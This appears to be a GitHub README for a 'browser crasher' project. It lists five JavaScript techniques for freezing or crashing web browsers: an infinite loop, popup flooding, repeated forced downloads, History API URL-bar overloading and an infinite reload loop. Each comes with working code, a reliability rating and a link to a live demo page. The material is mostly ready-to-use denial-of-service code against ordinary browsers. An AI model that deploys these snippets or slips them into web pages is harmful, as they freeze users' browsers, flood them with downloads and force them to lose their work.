 # Browser crasher

This repository provides several ways to crash/freeze the browser. Some of these methods can break the current tab (which requires reloading), while others target the entire browser.
As practice has shown, Chromium-based browsers are more vulnerable to various attacks than Firefox. The whole application is being affected, not just a single tab.

### CPU-bound Infinite Loop 10/10
The most reliable way to completely freeze a page. Works in any browser. Basically forces a user to close the page.
[OPEN](https://murka007.github.io/browser-crasher/?type=0)
```js
for(;;){}
```

### Window Opener 2/10
Opens multiple popups on the page and fills history, which drastically increases memory and cpu usage. Doesn't work if user has `block popups` option enabled.
[OPEN](https://murka007.github.io/browser-crasher/?type=1)
```js
setInterval(() => {
    window.open("", "", "width=1,height=1");
}, 10);
```


### Download Popup Opener 7/10
Almost the same method as `Window Opener`, but this approach is more consistent among all browsers.
[OPEN](https://murka007.github.io/browser-crasher/?type=2)
```js
const download = (text) => {
    const blob = new Blob([text], { type: "text/plain" });
    const url = URL.createObjectURL(blob);
    const link = document.createElement("a");
    link.href = url;
    link.download = "LOL.txt";

    document.body.appendChild(link);
    link.click();

    document.body.removeChild(link);
    URL.revokeObjectURL(url);
}

setInterval(() => {
    download("not happy about you");
}, 50);
```


### URL bar overloading 5/10
Abuses `History API` and fills URL bar with insanely large values.
[OPEN](https://murka007.github.io/browser-crasher/?type=3)
```js
const total = "0".repeat(999999);
setInterval(() => {
    history.pushState(0, 0, total);
}, 50);
```


### Infinite Reload Attack 1/10
Reloads the page multiple times. Firefox has protection against it.
[OPEN](https://murka007.github.io/browser-crasher/?type=4)
```js
window.onbeforeunload = function() {
    // additional attack vector
    localStorage.x = 1;
}

setTimeout(() => {
    for(;;) location.reload(1);
}, 100);
```

If you know other ways to do this, feel free to suggest!